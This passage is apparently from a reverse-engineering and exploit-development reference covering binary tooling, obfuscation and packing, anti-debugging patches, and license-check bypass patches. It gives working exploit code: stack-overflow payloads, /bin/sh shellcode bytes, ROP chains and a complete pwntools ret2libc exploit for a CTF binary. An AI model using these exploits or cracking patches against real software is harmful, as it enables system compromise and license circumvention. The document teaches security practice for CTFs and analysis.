readelf -h program         # ELF header
readelf -l program         # Program headers (segments)
readelf -S program         # Section headers
readelf -s program         # Symbol table
readelf -r program         # Relocations

# objdump (disassemble):
objdump -d program         # Disassemble .text section
objdump -D program         # Disassemble all sections
objdump -M intel -d program  # Intel syntax

# file (identify file type):
file program
# Output: ELF 64-bit LSB executable, x86-64

# ldd (list dynamic dependencies):
ldd program
# Output: libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6
```

**Finding entry point:**
```bash
readelf -h program | grep Entry
# Output: Entry point address: 0x401050
```

### .NET Reversing

**.NET assemblies** are compiled to CIL (Common Intermediate Language), not native code.

**Why .NET is easier to reverse:**
- CIL is high-level (closer to source code than assembly)
- Metadata preserves class/method/variable names (unless obfuscated)
- Decompilers produce near-source-quality C# code

**Tools:**

| Tool | Purpose |
|------|---------|
| **dnSpy** | .NET decompiler & debugger (best all-in-one tool) |
| **ILSpy** | .NET decompiler (open-source) |
| **dotPeek** | .NET decompiler (JetBrains, free) |
| **de4dot** | .NET deobfuscator |

**dnSpy usage:**

```bash
# Windows: Launch dnSpy.exe
dnSpy.exe

# Open .NET assembly:
# File → Open → Select .exe or .dll
```

**dnSpy features:**

**1. Decompiled C# code:**
```csharp
// Original source (approximately):
public class LicenseChecker {
    public static bool CheckLicense(string key) {
        string validKey = "ABC123-XYZ789";
        if (key == validKey) {
            return true;
        }
        return false;
    }
}
```

**2. IL (Intermediate Language) view:**
```il
.method public static bool CheckLicense(string key) cil managed {
    .maxstack 2
    .locals init ([0] bool result)

    ldstr "ABC123-XYZ789"
    ldarg.0
    call bool [mscorlib]System.String::op_Equality(string, string)
    stloc.0
    ldloc.0
    ret
}
```

**3. Editing & patching:**
- Right-click on method → **Edit IL Instructions**
- Modify IL code (e.g., change comparison to always return true)
- **File → Save Module** (save patched binary)

**Example: Bypass license check:**

**Before:**
```csharp
if (key == validKey) {
    return true;
}
return false;
```

**Patch IL:**
```il
; Change conditional to always return true:
; Replace "call bool System.String::op_Equality" with:
pop       ; Discard comparison result
pop       ; Discard arguments
ldc.i4.1  ; Push TRUE (1)
ret
```

**de4dot (deobfuscation):**

```bash
# Remove obfuscation from .NET binary:
de4dot.exe obfuscated.exe

# Output: obfuscated-cleaned.exe (deobfuscated)
```

### Android APK Reversing

**APK (Android Package)** is a ZIP file containing:
- **classes.dex:** Dalvik bytecode (compiled Java/Kotlin)
- **lib/:** Native libraries (.so files for ARM/x86)
- **res/:** Resources (images, layouts)
- **AndroidManifest.xml:** App permissions and components

**Tools:**

| Tool | Purpose |
|------|---------|
| **JADX** | DEX to Java decompiler (GUI & CLI) |
| **Apktool** | Decode APK to smali (Dalvik assembly) |
| **dex2jar** | Convert DEX to JAR (for JD-GUI) |
| **Frida** | Dynamic instrumentation for Android |
| **Ghidra** | Reverse native libraries (.so files) |

**JADX usage:**

```bash
# Install JADX:
# https://github.com/skylot/jadx/releases

# Decompile APK:
jadx app.apk -d output_dir

# Or use GUI:
jadx-gui app.apk
```

**JADX output:**
```java
// Decompiled Java code (from classes.dex):
public class MainActivity extends AppCompatActivity {
    private void checkLicense() {
        String license = "VALID-LICENSE-KEY";
        String userInput = editText.getText().toString();
        if (userInput.equals(license)) {
            Toast.makeText(this, "Access granted!", Toast.LENGTH_SHORT).show();
        } else {
            Toast.makeText(this, "Invalid license", Toast.LENGTH_SHORT).show();
        }
    }
}
```

**Apktool usage:**

```bash
# Decode APK to smali (Dalvik assembly):
apktool d app.apk -o app_decoded

# Output directory structure:
# app_decoded/
#   smali/          (Dalvik assembly code)
#   res/            (resources)
#   AndroidManifest.xml

# Edit smali code, then rebuild:
apktool b app_decoded -o app_modified.apk

# Sign APK:
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 \
  -keystore my.keystore app_modified.apk alias_name
```

**Analyzing native libraries (.so files):**

```bash
# APK may contain native ARM/x86 libraries in lib/:
# lib/armeabi-v7a/libnative.so
# lib/arm64-v8a/libnative.so
# lib/x86/libnative.so

# Extract .so file from APK:
unzip app.apk lib/arm64-v8a/libnative.so

# Analyze in Ghidra:
# File → Import File → libnative.so
# Analyze with default settings
```

---

## Anti-Reversing Techniques

### Obfuscation

**Obfuscation** makes code harder to understand without changing functionality.

**Control flow obfuscation:**

**Before (simple if statement):**
```c
if (password == "correct") {
    access_granted();
} else {
    access_denied();
}
```

**After (obfuscated with opaque predicates):**
```c
int x = (rand() % 2 == 0) ? 1 : 1;  // Always 1, but hard to analyze statically
if (x == 1) {
    if (password == "correct") {
        access_granted();
    } else {
        access_denied();
    }
}
```

**String obfuscation (XOR encoding):**
```c
// Hardcoded string is visible in binary
char password[] = "secret123";

// Obfuscated (XOR with key):
char enc[] = {0x10, 0x02, 0x00, 0x15, 0x02, 0x11, 0x56, 0x54, 0x50};
char password[10];
for (int i = 0; i < 9; i++) {
    password[i] = enc[i] ^ 0x42;  // XOR with 0x42
}
password[9] = '\0';
// Result: "secret123"
```

**Defeating string obfuscation:**
1. Find decoding loop in disassembly
2. Extract encoded data and XOR key
3. Decode manually or with script

### Packing

**Packing** compresses or encrypts the entire binary, unpacking at runtime.

**Common packers:**
- **UPX:** Universal Packer for eXecutables (open-source, easy to unpack)
- **Themida:** Commercial packer with anti-debugging and virtualization
- **VMProtect:** Virtualizes code (converts to custom VM instructions)
- **Enigma Protector:** Packer with anti-debugging and virtualization

**Detecting packed binaries:**

```bash
# High entropy (compressed/encrypted data):
# Use "Detect It Easy" (DiE): https://github.com/horsicq/Detect-It-Easy

# Or check entropy manually:
ent malware.exe
# Entropy > 7.0 suggests packing/encryption

# Check for known packer signatures:
# IDA Pro: "UPX0", "UPX1" sections
# PE sections with unusual names (.vmp, .themida, etc.)
```

**Unpacking UPX:**

```bash
# UPX can be unpacked with official unpacker:
upx -d packed.exe -o unpacked.exe

# Manual unpacking (if UPX modified):
# 1. Find OEP (Original Entry Point) via debugger
# 2. Set breakpoint on "pushad" instruction (typical UPX stub)
# 3. Run until unpacking complete
# 4. Dump process memory to file
```

**Manual unpacking process:**

1. **Load in debugger** (x64dbg)
2. **Find tail jump** (last jump before OEP)
   - UPX typically has a `jmp <OEP>` at end of unpacking stub
3. **Set breakpoint** on tail jump
4. **Run until breakpoint hit**
5. **Step into jump** (F7) → now at OEP
6. **Dump process** (Scylla plugin in x64dbg):
   - Plugins → Scylla → Dump → Select process → Dump
7. **Fix imports** (Scylla):
   - IAT Autosearch → Get Imports → Fix Dump

### Anti-Debugging Techniques

See [Dynamic Analysis → Bypassing Anti-Debugging](#bypassing-anti-debugging) for detailed techniques and bypasses.

**Common anti-debugging methods:**
1. **IsDebuggerPresent** API call
2. **PEB BeingDebugged** flag check
3. **RDTSC** timing checks
4. **Exception-based detection** (debuggers handle exceptions differently)
5. **Hardware breakpoint detection** (check DR0-DR7 registers)
6. **Software breakpoint detection** (check for `0xCC` INT3 instructions)
7. **Parent process check** (debugged process has debugger as parent)

**Patching anti-debugging:**

```bash
# IDA Pro: Identify anti-debug check, patch to NOP
# Example: Patch "call IsDebuggerPresent" to "xor eax, eax"

# Before:
call IsDebuggerPresent  ; E8 XX XX XX XX
test eax, eax           ; 85 C0
jnz debugger_detected   ; 75 XX

# After (patch):
xor eax, eax            ; 33 C0
nop                     ; 90
nop                     ; 90
nop                     ; 90
test eax, eax           ; 85 C0 (unchanged, EAX always 0)
jnz debugger_detected   ; 75 XX (never jumps)

# IDA Pro: Edit → Patch program → Assemble
# Or: Hex edit: Replace "E8 XX XX XX XX" with "33 C0 90 90 90"
```

### Code Virtualization

**Code virtualization** converts native code to custom VM bytecode.

**Example (VMProtect):**

**Before (native x86):**
```nasm
mov eax, 0x42
add eax, ebx
ret
```

**After (VMProtect - custom bytecode):**
```
VM_PUSH 0x42        ; Push 0x42 to VM stack
VM_PUSH_REG EBX     ; Push EBX to VM stack
VM_ADD              ; Pop two values, add, push result
VM_POP_REG EAX      ; Pop result to EAX
VM_RET              ; Return
```

**Defeating virtualization:**
- **Time-consuming:** Reverse the VM interpreter (understand bytecode handlers)
- **Automated tools:** VMAttack, NoVmp (experimental, limited success)
- **Alternative:** Dynamic analysis (bypass VM, focus on decrypted API calls)

---

## Exploit Development

### Buffer Overflows

**Stack-based buffer overflow:**

**Vulnerable code:**
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // No bounds checking!
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char **argv) {
    if (argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
```

**Exploitation:**

```python
# Generate payload to overwrite return address
import struct

# Step 1: Find offset to return address
# Use pattern_create (pwntools or msf-pattern_create)
# python3 -c 'from pwn import *; print(cyclic(200))'

# Step 2: Run program with pattern, crash at EIP=0x61616171
# Use pattern_offset to find offset:
# python3 -c 'from pwn import *; print(cyclic_find(0x61616171))'
# Offset: 76 bytes

# Step 3: Craft payload
offset = 76
return_address = struct.pack("<I", 0x08048484)  # Address of shellcode or gadget
nop_sled = b"\x90" * 16  # NOP sled
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68..."  # Shellcode (spawn shell)

payload = b"A" * offset + return_address + nop_sled + shellcode

# Run:
# ./vulnerable "$(python3 exploit.py)"
```

**Stack layout during overflow:**

```
High memory
-----------------
[Return address]   <-- Overwrite with shellcode address
[Saved EBP]        <-- Overwritten
[buffer[64]]       <-- Buffer overflow starts here
...
Low memory
```

### Return-Oriented Programming (ROP)

**ROP** chains together "gadgets" (short instruction sequences ending in `ret`) to execute code without injecting shellcode.

**Why ROP?**
- **DEP/NX:** Data Execution Prevention prevents executing code on stack/heap
- **ASLR:** Address Space Layout Randomization makes hardcoded addresses unreliable
- **ROP bypasses DEP:** Uses existing code in binary/libraries (already executable)

**Finding ROP gadgets:**

```bash
# ROPgadget (Python tool):
ROPgadget --binary vulnerable --ropchain

# Or use ropper:
ropper --file vulnerable --search "pop rdi"

# Example gadgets:
0x004005a3: pop rdi; ret
0x004005a1: pop rsi; pop r15; ret
0x00400490: pop rax; ret
0x00400610: syscall; ret
```

**ROP chain example (call execve("/bin/sh")):**

```python
from pwn import *

# Gadgets:
pop_rdi = 0x004005a3  # pop rdi; ret
pop_rsi_r15 = 0x004005a1  # pop rsi; pop r15; ret
pop_rax = 0x00400490  # pop rax; ret
syscall = 0x00400610  # syscall; ret

# Data:
bin_sh = 0x00601050  # Address of "/bin/sh" string in binary

# ROP chain to call execve("/bin/sh", NULL, NULL):
# execve(rdi="/bin/sh", rsi=NULL, rdx=NULL) -> syscall 59

rop_chain = p64(pop_rdi) + p64(bin_sh)       # rdi = "/bin/sh"
rop_chain += p64(pop_rsi_r15) + p64(0) + p64(0)  # rsi = NULL, r15 = 0
rop_chain += p64(pop_rax) + p64(59)          # rax = 59 (execve syscall)
rop_chain += p64(syscall)                    # syscall

# Full payload:
payload = b"A" * 76 + rop_chain

# Send to vulnerable program
```

### Shellcode Development

**Shellcode** is position-independent code (typically for spawning a shell).

**Linux x64 shellcode (execve("/bin/sh")):**

```nasm
; execve("/bin/sh", NULL, NULL)
; syscall number: 59 (in RAX)

section .text
global _start

_start:
    xor rax, rax        ; RAX = 0
    push rax            ; NULL terminator
    mov rdi, 0x68732f6e69622f  ; "/bin/sh" (little-endian)
    push rdi            ; Push "/bin/sh" onto stack
    mov rdi, rsp        ; RDI = pointer to "/bin/sh"
    xor rsi, rsi        ; RSI = NULL (argv)
    xor rdx, rdx        ; RDX = NULL (envp)
    mov al, 59          ; RAX = 59 (execve syscall)
    syscall             ; Execute syscall
```

**Assemble shellcode:**

```bash
# Assemble:
nasm -f elf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode

# Extract bytes:
objdump -d shellcode -M intel | grep '^ ' | cut -f2 | tr -d ' \n'
# Output: 4831c05048bf2f62696e2f736800574889e74831f64831d2b03b0f05
```

**Python shellcode payload:**

```python
shellcode = b"\x48\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"
shellcode += b"\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05"

# Use in exploit:
payload = nop_sled + shellcode + return_address
```

### Bypassing Protections

**DEP/NX (Data Execution Prevention):**
- **What it does:** Marks stack/heap as non-executable
- **Bypass:** ROP (return-oriented programming)

**ASLR (Address Space Layout Randomization):**
- **What it does:** Randomizes base addresses of stack, heap, libraries
- **Bypass:** Information leak (leak address, calculate offsets)

**Stack Canaries:**
- **What it does:** Places random value before return address, checks on function return
- **Detection:**
```nasm
mov rax, qword ptr fs:[0x28]  ; Load canary from TLS
mov qword ptr [rbp-0x8], rax  ; Store canary on stack
; ... function body ...
mov rax, qword ptr [rbp-0x8]  ; Load canary from stack
xor rax, qword ptr fs:[0x28]  ; Compare with original
jne __stack_chk_fail          ; Crash if mismatch
```
- **Bypass:** Leak canary value (via format string or info leak)

**PIE (Position Independent Executable):**
- **What it does:** Binary can be loaded at any address (extends ASLR to code section)
- **Bypass:** Information leak (leak code address, calculate gadget offsets)

**Checking protections:**

```bash
# Linux: checksec (pwntools):
checksec --file vulnerable
# Output:
# RELRO: Partial RELRO
# Stack: No canary found
# NX: NX enabled
# PIE: No PIE

# Windows: PESecurity (PowerShell):
Get-PESecurity -file vulnerable.exe
```

---

## Practical Workflows

### Crackme Challenges

**Scenario:** Reverse a "crackme" challenge to find the correct password.

**Workflow:**

**1. Initial triage:**
```bash
file crackme
# Output: ELF 64-bit LSB executable

strings crackme | grep -i password
# Output: "Enter password:", "Correct!", "Wrong!"
```

**2. Disassemble in Ghidra:**
- Load binary → Analyze
- Find `main` function (or search for "Enter password" string, find xrefs)

**3. Identify comparison:**
```c
// Decompiled code (Ghidra):
int main(void) {
    char input[32];
    printf("Enter password: ");
    scanf("%s", input);

    if (strcmp(input, "secret_password") == 0) {
        printf("Correct!\n");
        return 0;
    } else {
        printf("Wrong!\n");
        return 1;
    }
}
```

**4. Extract password:**
- Password hardcoded: `"secret_password"`
- Alternative: Dynamic analysis (set breakpoint on `strcmp`, inspect arguments)

**5. Verify:**
```bash
./crackme
# Enter password: secret_password
# Output: Correct!
```

### Patching Binaries

**Scenario:** Patch a license check to always return "valid."

**Workflow:**

**1. Find license check in IDA/Ghidra:**
```nasm
; Original code:
call check_license  ; Returns 0 (invalid) or 1 (valid)
test eax, eax
jz license_invalid  ; Jump if zero (invalid)
; ... license valid path ...
```

**2. Patch comparison:**

**Option A: Patch jump (always take "valid" path):**
```nasm
; Before:
jz license_invalid  ; 74 XX (conditional jump)

; After:
jmp license_valid   ; EB XX (unconditional jump)
; Or: NOP the jump entirely
nop                 ; 90
nop                 ; 90
```

**Option B: Patch function to always return 1:**
```nasm
; Patch check_license function:
; Before:
check_license:
    ; ... complex license verification ...
    ret

; After:
check_license:
    mov eax, 1      ; Always return 1 (valid)
    ret
```

**3. Apply patch in IDA:**
- **Edit → Patch program → Assemble** (modify instructions)
- **Edit → Patch program → Apply patches to input file** (save patched binary)

**4. Verify:**
```bash
./patched_binary
# License check bypassed!
```

### Malware Analysis Integration

**See [[sop-malware-analysis|Malware Analysis]] for comprehensive malware reversing workflows.**

**Quick integration:**
1. **Static analysis** (Ghidra/IDA): Identify suspicious functions (network, encryption, persistence)
2. **Dynamic analysis** (x64dbg/GDB): Monitor API calls, network traffic, file modifications
3. **Extract IOCs** (IPs, domains, file hashes, registry keys)
4. **Behavioral analysis**

**Example: Extract C2 server address:**

```bash
# Static: Search for IP/domain strings
strings malware.exe | grep -E "([0-9]{1,3}\.){3}[0-9]{1,3}|https?://"

# Dynamic: Monitor network calls in x64dbg
# Set breakpoint on "connect", "WSAConnect", "InternetConnectA"
# Inspect arguments when hit (IP, port in sockaddr structure)
```

### CTF Binary Exploitation

**Scenario:** CTF pwn challenge with buffer overflow.

**Workflow:**

**1. Download binary and check protections:**
```bash
checksec chall
# Output: NX enabled, No PIE, No canary
```

**2. Find vulnerability (buffer overflow in `gets()`):**
```c
// Decompiled:
void vuln() {
    char buffer[64];
    gets(buffer);  // Vulnerable!
    puts(buffer);
}
```

**3. Find offset to return address:**
```bash
# Generate cyclic pattern:
python3 -c 'from pwn import *; print(cyclic(200))' > pattern.txt

# Run in GDB:
gdb ./chall
run < pattern.txt
# Crash at RIP = 0x6161616b ("kaaa")

# Find offset:
python3 -c 'from pwn import *; print(cyclic_find(0x6161616b))'
# Offset: 72
```

**4. Develop exploit (ret2libc to bypass NX):**
```python
from pwn import *

# Addresses:
puts_plt = 0x400530      # puts@PLT
puts_got = 0x601018      # puts@GOT
pop_rdi = 0x4006d3       # pop rdi; ret gadget
ret = 0x4006d4           # ret gadget (for alignment)
main = 0x400626          # main function

# Stage 1: Leak libc address
payload = b"A" * 72
payload += p64(pop_rdi) + p64(puts_got)  # rdi = puts@GOT
payload += p64(puts_plt)                 # Call puts(puts@GOT) -> leak libc
payload += p64(main)                     # Return to main

p = process('./chall')
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc_base = leak - 0x809c0  # Offset to puts in libc
system = libc_base + 0x4f440
bin_sh = libc_base + 0x1b3e9a

# Stage 2: Call system("/bin/sh")
payload2 = b"A" * 72
payload2 += p64(ret)  # Stack alignment
payload2 += p64(pop_rdi) + p64(bin_sh)
payload2 += p64(system)

p.sendline(payload2)
p.interactive()  # Shell!
```

**5. Submit flag:**
```bash
# In shell:
cat flag.txt
```

---

## Tools Reference

### Disassemblers & Decompilers

| Tool | Type | Platform | Cost | Download |
|------|------|----------|------|----------|
| **IDA Pro** | Disassembler + Decompiler | Win/Linux/macOS | $$$ | https://hex-rays.com/ida-pro/ |
| **Ghidra** | Disassembler + Decompiler | Win/Linux/macOS | Free | https://ghidra-sre.org/ |
| **Binary Ninja** | Disassembler + Decompiler | Win/Linux/macOS | $$ | https://binary.ninja/ |
| **Radare2** | Disassembler | Win/Linux/macOS | Free | https://rada.re/ |
| **Cutter** | Disassembler (r2 GUI) | Win/Linux/macOS | Free | https://cutter.re/ |
| **Hopper** | Disassembler + Decompiler | macOS/Linux | $ | https://www.hopperapp.com/ |
| **RetDec** | Decompiler (online/CLI) | Web/Linux | Free | https://retdec.com/ |

### Debuggers

| Tool | Platform | Best For |
|------|----------|----------|
| **x64dbg** | Windows | Windows user-mode, malware, CTF |
| **WinDbg** | Windows | Kernel debugging, crash analysis |
| **GDB** | Linux/macOS | Linux/macOS debugging, exploits, Python scripting (PEDA/GEF/pwndbg) |
| **LLDB** | macOS/Linux | macOS/iOS, modern alternative to GDB |
| **OllyDbg** | Windows | Legacy 32-bit (x64dbg recommended) |
| **IDA Debugger** | Win/Linux/macOS | Integrated with IDA disassembly |
| **EDB** | Linux | Linux GUI debugger |

### Dynamic Instrumentation

| Tool | Platform | Purpose |
|------|----------|---------|
| **Frida** | Win/Linux/macOS/Android/iOS | Runtime hooking, API monitoring |
| **DynamoRIO** | Win/Linux | Dynamic binary instrumentation framework |
| **Pin** | Win/Linux | Intel's instrumentation tool |
| **Unicorn** | All | CPU emulator for RE (based on QEMU) |
| **Qiling** | All | Binary emulation framework |

### Platform-Specific Tools

**Windows:**
- **PE-bear:** PE editor/analyzer
- **PEview:** PE structure viewer
- **CFF Explorer:** PE editor
- **Process Hacker:** Process monitoring
- **Procmon:** File/registry/network monitoring

**Linux:**
- **readelf:** ELF header analysis
- **objdump:** Disassembler
- **ltrace:** Library call tracer
- **strace:** System call tracer
- **ldd:** List dynamic dependencies

**.NET:**
- **dnSpy:** Decompiler + debugger
- **ILSpy:** Decompiler
- **dotPeek:** Decompiler (JetBrains)
- **de4dot:** Deobfuscator

**Android:**
- **JADX:** DEX to Java decompiler
- **Apktool:** APK decoder/builder
- **dex2jar:** DEX to JAR converter
- **JD-GUI:** Java decompiler
- **Frida:** Dynamic instrumentation

### Exploit Development

| Tool | Purpose |
|------|---------|
| **pwntools** | Python exploit framework |
| **ROPgadget** | ROP gadget finder |
| **ropper** | ROP gadget finder (more features) |
| **msfvenom** | Shellcode generator (Metasploit) |
| **one_gadget** | Find one-shot RCE gadgets in libc |
| **pwndbg/GEF/PEDA** | GDB enhancements for exploit dev |

### Utilities

| Tool | Purpose |
|------|---------|
| **HxD** | Hex editor (Windows) |
| **010 Editor** | Hex editor with templates |
| **Detect It Easy** | Packer/compiler detection |
| **Entropy** | Measure file entropy (detect packing) |
| **UPX** | Packer/unpacker |
| **PEiD** | Packer/compiler detection (legacy) |
| **Binary Refinery** | Python-based binary analysis toolkit with 100+ tools for data extraction, deobfuscation, and format parsing |

**Binary Refinery usage:**
```bash
# Install Binary Refinery:
pip install binary-refinery

# Extract strings from binary:
emit malware.exe | carve string | peek

# Decode XOR-encoded data:
emit encoded.bin | xor key:0x42 | peek

# Extract embedded PE files:
emit packed.exe | carve pe | dump

# Chain multiple operations:
emit data.bin | xor key:0x13 | zl | carve url | peek
```

---

## Learning Resources

### Books

- **Practical Reverse Engineering** by Bruce Dang et al. (x86/x64/ARM reversing)
- **The IDA Pro Book** by Chris Eagle (IDA Pro deep dive)
- **Reversing: Secrets of Reverse Engineering** by Eldad Eilam (fundamentals)
- **The Art of Software Security Assessment** by Mark Dowd et al. (vulnerability research)
- **Hacking: The Art of Exploitation** by Jon Erickson (exploit development)

### Practice Platforms

- **Crackmes.one:** https://crackmes.one/ (reversing challenges)
- **ReverseEngineering.StackExchange:** https://reverseengineering.stackexchange.com/
- **CTFtime:** https://ctftime.org/ (CTF competitions with RE challenges)
- **PicoCTF:** https://picoctf.org/ (beginner-friendly CTF)
- **HackTheBox:** https://www.hackthebox.eu/ (reversing & exploitation)
- **Pwnable.kr / Pwnable.tw:** (binary exploitation practice)

### Online Courses

- **Malware Analysis Bootcamp (SANS FOR610)**
- **Reverse Engineering Malware (SANS FOR610)**
- **Practical Malware Analysis & Triage (PMAT)** by TCM Security
- **LiveOverflow YouTube:** https://www.youtube.com/c/LiveOverflow (binary exploitation)

---

## Reference Resources

### Comprehensive Knowledge Bases
- **HackTricks - Binary Exploitation** - [book.hacktricks.xyz/binary-exploitation](https://book.hacktricks.xyz/binary-exploitation)
  - Stack/heap overflows, ROP, format strings
  - Linux and Windows exploit techniques
- **Nightmare (Binary Exploitation)** - [guyinatuxedo.github.io](https://guyinatuxedo.github.io/)
  - Comprehensive CTF binary exploitation course
  - Covers stack overflows, ROP, heap exploitation, kernel exploitation
- **Reverse Engineering for Beginners** - [beginners.re](https://beginners.re/)
  - Free book by Dennis Yurichev
  - Covers x86/ARM assembly, disassembly, patterns
- **Malware Unicorn's Reverse Engineering 101** - [malwareunicorn.org/workshops/re101.html](https://malwareunicorn.org/workshops/re101.html)
  - Beginner-friendly RE workshop materials
  - x86 assembly, IDA Pro, malware analysis

### Assembly & Architecture Resources
- **x86 Assembly Guide (UVA)** - [cs.virginia.edu/~evans/cs216/guides/x86.html](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html)
  - x86 assembly reference and calling conventions
- **Intel Software Developer Manuals** - [intel.com/sdm](https://software.intel.com/content/www/us/en/develop/articles/intel-sdm.html)
  - Official x86/x64 instruction set reference
- **ARM Architecture Reference Manual** - [developer.arm.com](https://developer.arm.com/documentation/)
  - Official ARM instruction set documentation
- **Agner Fog's Optimization Manuals** - [agner.org/optimize](https://www.agner.org/optimize/)
  - x86 assembly optimization and microarchitecture guides

### Tool Documentation
- **Ghidra Documentation** - [ghidra-sre.org](https://ghidra-sre.org/)
  - Official Ghidra user guide and scripting reference
  - P-Code (Ghidra's intermediate language) documentation
- **IDA Pro Documentation** - [hex-rays.com/documentation](https://hex-rays.com/documentation/)
  - IDA Pro and Hex-Rays decompiler manuals
  - IDAPython API reference
- **Binary Ninja Documentation** - [docs.binary.ninja](https://docs.binary.ninja/)
  - Binary Ninja Python API and BNIL documentation
- **Radare2 Book** - [book.rada.re](https://book.rada.re/)
  - Comprehensive radare2 guide
- **x64dbg Documentation** - [help.x64dbg.com](https://help.x64dbg.com/)
  - x64dbg debugger reference

### Binary Formats
- **Portable Executable (PE) Format** - [docs.microsoft.com/en-us/windows/win32/debug/pe-format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)
  - Official Microsoft PE format specification
- **ELF Format Specification** - [refspecs.linuxbase.org/elf/elf.pdf](https://refspecs.linuxbase.org/elf/elf.pdf)
  - Official ELF (Linux/Unix) format specification
- **Mach-O Format (macOS)** - [github.com/aidansteele/osx-abi-macho-file-format-reference](https://github.com/aidansteele/osx-abi-macho-file-format-reference)
  - Apple Mach-O executable format reference

### Exploit Development Resources
- **Exploit Education** - [exploit.education](https://exploit.education/)
  - Phoenix, Nebula, Fusion VM challenges
  - Hands-on binary exploitation practice
- **ROP Emporium** - [ropemporium.com](https://ropemporium.com/)
  - ROP (Return-Oriented Programming) challenges
  - Progressively difficult exploit development exercises
- **pwn.college** - [pwn.college](https://pwn.college/)
  - Arizona State University's binary exploitation course
  - Covers assembly, shellcode, ROP, heap exploitation
- **how2heap** - [github.com/shellphish/how2heap](https://github.com/shellphish/how2heap)
  - Heap exploitation techniques and examples
- **Shellcode Database** - [shell-storm.org/shellcode](http://shell-storm.org/shellcode/)
  - Collection of shellcode for various architectures

### Cheat Sheets & Quick References
- **x86/x64 Opcode Reference** - [ref.x86asm.net](http://ref.x86asm.net/)
  - Quick x86 instruction reference
- **Syscall Tables** - [syscalls.w3challs.com](https://syscalls.w3challs.com/)
  - Linux/Windows syscall numbers and arguments
- **GTFOBins** - [gtfobins.github.io](https://gtfobins.github.io/)
  - Unix binary exploitation techniques (sudo, SUID, capabilities)
- **LOLBAS Project** - [lolbas-project.github.io](https://lolbas-project.github.io/)
  - Living Off the Land Binaries (Windows exploitation)
- **Calling Conventions Cheat Sheet** - [agner.org/optimize/calling_conventions.pdf](https://www.agner.org/optimize/calling_conventions.pdf)
  - x86/x64 calling convention reference

### Disassembly Patterns & Idioms
- **Hex-Rays Microcode Documentation** - [hex-rays.com/products/ida/support/idapython_docs/](https://hex-rays.com/products/ida/support/idapython_docs/)
  - Understanding Hex-Rays decompiler internals
- **Binary Ninja IL Reference** - [docs.binary.ninja/dev/bnil-overview.html](https://docs.binary.ninja/dev/bnil-overview.html)
  - Understanding Binary Ninja's intermediate languages
- **Compiler Explorer (Godbolt)** - [godbolt.org](https://godbolt.org/)
  - See how C/C++ compiles to assembly for various compilers
  - Understand compiler optimizations and patterns

### Anti-Reversing & Obfuscation
- **Awesome Reverse Engineering - Anti-Debugging** - [github.com/wtsxDev/reverse-engineering](https://github.com/wtsxDev/reverse-engineering)
  - Collection of anti-debugging techniques
- **The Ultimate Anti-Reversing Reference** - [anti-reversing.com](http://www.anti-reversing.com/)
  - Comprehensive anti-RE techniques catalog
- **Unprotect Project** - [unprotect.it](https://unprotect.it/)
  - Malware evasion techniques database

### Practice Platforms
- **Crackmes.one** - [crackmes.one](https://crackmes.one/)
  - Community crackme challenges (all difficulty levels)
- **Reverse Engineering StackExchange** - [reverseengineering.stackexchange.com](https://reverseengineering.stackexchange.com/)
  - Q&A forum for reverse engineering
- **PicoCTF** - [picoctf.org](https://picoctf.org/)
  - Beginner-friendly CTF with RE challenges
- **Pwnable.kr** - [pwnable.kr](http://pwnable.kr/)
  - Korean wargame with binary exploitation challenges
- **Pwnable.tw** - [pwnable.tw](https://pwnable.tw/)
  - Taiwan wargame with advanced exploitation challenges
- **HackTheBox** - [hackthebox.com](https://www.hackthebox.com/)
  - Reversing and binary exploitation boxes

### CTF Write-ups & Solutions
- **CTFtime Write-ups** - [ctftime.org/writeups](https://ctftime.org/writeups)
  - CTF solutions database (search for RE challenges)
- **Google CTF Write-ups** - [github.com/google/google-ctf](https://github.com/google/google-ctf)
  - Official Google CTF challenge write-ups
- **LiveOverflow YouTube** - [youtube.com/c/LiveOverflow](https://www.youtube.com/c/LiveOverflow)
  - Binary exploitation and RE video tutorials

### Blogs & Research
- **Trail of Bits Blog** - [blog.trailofbits.com](https://blog.trailofbits.com/)
  - Security research and reverse engineering articles
- **RET2 Systems Blog** - [blog.ret2.io](https://blog.ret2.io/)
  - Vulnerability research and exploit development
- **Windows Internals Blog** - [windows-internals.com/blog](https://www.windows-internals.com/blog/)
  - Windows kernel and internals research
- **Phrack Magazine** - [phrack.org](http://phrack.org/)
  - Classic hacking/exploitation zine (historical techniques)

### Debugging & Dynamic Analysis
- **Frida Documentation** - [frida.re/docs](https://frida.re/docs/)
  - Official Frida dynamic instrumentation guide
- **Pin Documentation** - [intel.com/content/www/us/en/developer/articles/tool/pin-a-dynamic-binary-instrumentation-tool.html](https://software.intel.com/content/www/us/en/develop/articles/pin-a-dynamic-binary-instrumentation-tool.html)
  - Intel Pin instrumentation framework
- **GDB Cheat Sheet** - [darkdust.net/files/GDB%20Cheat%20Sheet.pdf](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
  - Quick GDB command reference
- **pwndbg Documentation** - [github.com/pwndbg/pwndbg](https://github.com/pwndbg/pwndbg)
  - GDB enhancement for exploit development
- **GEF Documentation** - [hugsy.github.io/gef](https://hugsy.github.io/gef/)
  - GDB Enhanced Features guide

### Binary Analysis Tools
- **Binary Refinery** - [github.com/binref/refinery](https://github.com/binref/refinery)
  - Python-based binary analysis toolkit with 100+ tools
  - Data extraction, deobfuscation, format parsing
- **angr Documentation** - [docs.angr.io](https://docs.angr.io/)
  - Binary analysis framework (symbolic execution, CFG recovery)
- **Triton** - [triton.quarkslab.com](https://triton.quarkslab.com/)
  - Dynamic symbolic execution framework
- **Unicorn Engine** - [unicorn-engine.org](https://www.unicorn-engine.org/)
  - Lightweight CPU emulator for RE

### Platform-Specific Resources
**Windows:**
- **Windows Internals (Book Series)** by Mark Russinovich
- **Undocumented Windows Functions** - [undocumented.ntinternals.net](http://undocumented.ntinternals.net/)
